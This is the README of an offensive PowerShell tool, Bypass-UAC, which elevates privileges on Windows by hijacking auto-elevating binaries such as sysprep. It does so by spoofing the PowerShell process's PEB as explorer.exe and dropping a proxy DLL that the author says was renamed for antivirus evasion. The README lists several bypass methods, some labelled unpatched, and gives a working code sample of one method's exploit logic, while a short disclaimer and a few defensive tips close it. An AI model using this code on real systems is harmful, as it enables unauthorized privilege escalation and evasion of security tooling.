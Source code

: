 # Bypass-UAC
Bypass-UAC provides a framework to perform UAC bypasses based on auto elevating IFileOperation COM object method calls. This is not a new technique, traditionally, this is accomplished by injecting a DLL into "explorer.exe". This is not desirable because injecting into explorer may trigger security alerts and working with unmanaged DLL's makes for an inflexible work-flow.

To get around this, Bypass-UAC implements a function which rewrites PowerShell's PEB to give it the appearance of "explorer.exe". This provides the same effect because COM objects exclusively rely on Windows's Process Status API (PSAPI) which reads the process PEB.

# Usage

Bypass-UAC is self-contained and does not have any dependencies, bar a requirement that the target have PowerShell v2.

#### Methods

* UacMethodSysprep: Original technique by Leo Davidson (sysprep -> cryptbase.dll)
  * Targets: x32/x64 Windows 7 & 8
* ucmDismMethod: Hybrid method (PkgMgr -> DISM -> dismcore.dll)
  * Targets: x64 Win7+ (currently unpatched)
* UacMethodMMC2: Hybrid method (mmc -> rsop.msc -> wbemcomn.dll)
  * Targets: x64 Win7+ (currently unpatched)
* UacMethodTcmsetup: Hybrid method (tcmsetup -> tcmsetup.exe.local -> comctl32.dll)
  * Targets: x32/x64 Win7+ (currently unpatched)
* UacMethodNetOle32: Hybrid method (mmc some.msc -> Microsoft.NET\Framework[64]\..\ole32.dll)
  * Targets: x32/x64 Win7+ (currently unpatched)

#### Sample Output

**Win 7 Pro**

![UacMethodSysprep](images/Win7-32.png)

**Win 10 Pro**

![UacMethodTcmsetup](images/Win10-32.png)

# Components

#### PSReflect

By [@mattifestation](https://twitter.com/mattifestation), allows you to easily define in-memory enums, structs, and Win32 functions. This is necessary because it allows PowerShell to use the Windows API without compiling c# at runtime. Doing that is ok most of the time but it writes temporary files to disk and won't work if csc is blacklisted.

#### Masquerade-PEB

A modified version of [Masquerade-PEB](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Masquerade-PEB.ps1), changed to use PSReflect. This function overwrites PowerShell's PEB to impersonate "explorer.exe".

#### Invoke-IFileOperation

Load a .NET dll into memory which exposes an IFileOperation COM object interface to PowerShell. This is based on work done by Stephen Toub, published in the December 2007 MSDN magazine (I added the pages in the [images](images) folder for reference). Further details available in the [FileOperations](FileOperations) folder.

```
PS C:\Users\b33f> $IFileOperation |Get-Member
 
    TypeName: FileOperation.FileOperation
 
 Name              MemberType Definition
 ----              ---------- ----------
 CopyItem          Method     void CopyItem(string source, string destination, string newName)
 DeleteItem        Method     void DeleteItem(string source)
 Dispose           Method     void Dispose(), void IDisposable.Dispose()
 Equals            Method     bool Equals(System.Object obj)
 GetHashCode       Method     int GetHashCode()
 GetType           Method     type GetType()
 MoveItem          Method     void MoveItem(string source, string destination, string newName)
 NewItem           Method     void NewItem(string folderName, string name, System.IO.FileAttributes attrs)
 PerformOperations Method     void PerformOperations()
 RenameItem        Method     void RenameItem(string source, string newName)
 ToString          Method     string ToString()
```

#### Emit-Yamabiko

Bootstrap function which writes an x32/x64 bit proxy dll to disk (Yamabiko). This dll is based on [fubuki](https://github.com/hfiref0x/UACME/tree/master/Source/Fubuki) from [@hfiref0x](https://twitter.com/hfiref0x)'s UACME project. Mostly I stripped out the redundant functionality and did some minor renaming for AV evasion. Further details available in the [Yamabiko](Yamabiko) folder.

# Contributing

Currently there are four methods in Bypass-UAC, I will add more gradually but it would be awesome if people want to contribute. It is really easy to add a new method, provided you need an elevated file copy/move/rename or folder creation. A sample method can be seen below for reference.

```powershell
'UacMethodSysprep'
{
    # Original Leo Davidson sysprep method
    # Works on everything pre 8.1
    if ($OSMajorMinor -ge 6.3) {
        echo "[!] Your OS does not support this method!`n"
        Return
    }

    # Impersonate explorer.exe
    echo "`n[!] Impersonating explorer.exe!"
    Masquerade-PEB -BinPath "C:\Windows\explorer.exe"

    if ($DllPath) {
        echo "[>] Using custom proxy dll.."
        echo "[+] Dll path: $DllPath"
    } else {
        # Write Yamabiko.dll to disk
        echo "[>] Dropping proxy dll.."
        Emit-Yamabiko
    }

    # Expose IFileOperation COM object
    Invoke-IFileOperation

    # Exploit logic
    echo "[>] Performing elevated IFileOperation::MoveItem operation.."
    $IFileOperation.MoveItem($DllPath, $($env:SystemRoot + '\System32\sysprep\'), "cryptbase.dll")
    $IFileOperation.PerformOperations()
    echo "`n[?] Executing sysprep.."
    IEX $($env:SystemRoot + '\System32\sysprep\sysprep.exe')

    # Clean-up
    echo "[!] UAC artifact: $($env:SystemRoot + '\System32\sysprep\cryptbase.dll')`n"
}
```

Similarly, using [EXPORTSTOC++](http://sourcesecure.net/tools/exportstoc/) you can easily copy/paste exports into Yamabiko to target new binaries!

# Disclaimer

This project is for authorized use only, that goes without saying, I don't take responsibility for foolish people doing bad things!

#### Protect Yourself

* Don't provide users with local Administrator rights.
* Change the default UAC setting to "Always notify me and wait for my response" & require users to enter their password.
* Remember Microsoft's official position is that UAC is not a security feature!

# References

* UACME
  * https://github.com/hfiref0x/UACME
* Windows 7 UAC whitelist
  * http://www.pretentiousname.com/misc/win7_uac_whitelist2.html
* Malicious Application Compatibility Shims
  * https://www.blackhat.com/docs/eu-15/materials/eu-15-Pierce-Defending-Against-Malicious-Application-Compatibility-Shims-wp.pdf
* KernelMode UACMe thread
  * http://www.kernelmode.info/forum/viewtopic.php?f=11&t=3643
* KernelMode, Using SxS redirection to gain NT AUTHORITY\SYSTEM privileges
  * http://www.kernelmode.info/forum/viewtopic.php?f=11&t=3643&start=110
* Syscan360, UAC security issues
  * https://www.syscan360.org/slides/2013_ZH_DeepThinkingTheUACSecurityIssues_Instruder.pdf
* Microsoft technet, Inside Windows 7 User Account Control
  * https://technet.microsoft.com/en-us/magazine/2009.07.uac.aspx
* Cobalt Strike, User Account Control – What Penetration Testers Should Know
  * http://blog.cobaltstrike.com/2014/03/20/user-account-control-what-penetration-testers-should-know/
